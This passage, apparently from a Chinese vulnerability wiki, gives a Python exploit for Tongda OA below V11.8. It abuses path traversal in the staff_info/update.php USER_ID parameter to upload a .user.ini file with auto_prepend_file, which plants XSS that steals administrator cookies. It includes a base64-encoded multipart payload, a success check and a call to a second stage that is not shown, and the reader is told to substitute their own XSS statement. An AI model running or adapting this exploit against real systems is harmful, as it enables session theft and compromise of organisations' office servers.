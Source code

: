 用同样的方法上传利用文件，每次当管理员设置时就会盗取Cookie

## 漏洞POC

因为是xss可能对目标有影响，所以这里POC在一个不常用目录探测是否存在漏洞

Cookie填写访问后台时的Cookie, 其中的base64解码更改 PeiQi_Wiki为 自己的XSS语句

v11.6及以下 攻击 /general 和 /general/system/attachment 目录较好

v11.6以上 攻击  /general/system/attachment 目录较好

```python
import requests
import sys
import random
import re
import base64
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: 通达OA < V11.8                                             \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mCookie      >>> xxxxxxxxxxxxxxxxxxxxxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, Cookie):
    vuln_url = target_url + "/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop\workshop/report/attachment-remark/.user"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "multipart/form-data; boundary=---------------------------17518323986548992951984057104",
        "Connection": "close",
        "Cookie": Cookie,
        "Upgrade-Insecure-Requests": "1",
    }
    data = base64.b64decode("LS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0xNzUxODMyMzk4NjU0ODk5Mjk1MTk4NDA1NzEwNApDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9IkFUVEFDSE1FTlQiOyBmaWxlbmFtZT0icGVpcWkuaW5pIgpDb250ZW50LVR5cGU6IHRleHQvcGxhaW4KCmF1dG9fcHJlcGVuZF9maWxlPXBlaXFpLmxvZwotLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLTE3NTE4MzIzOTg2NTQ4OTkyOTUxOTg0MDU3MTA0CkNvbnRlbnQtRGlzcG9zaXRpb246IGZvcm0tZGF0YTsgbmFtZT0ic3VibWl0IgoK5o+Q5LqkCi0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tMTc1MTgzMjM5ODY1NDg5OTI5NTE5ODQwNTcxMDQtLQ==")
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop/workshop/report/attachment-remark/.user \033[0m".format(target_url))
        if "档案已保存" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 成功上传.user.ini文件, \033[0m".format(target_url))
            POC_2(target_url, Cookie)
        else:
            print("\033[31m[x] 目标 {} 上传.user.ini文件失败\033[0m".format(target_url))
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

```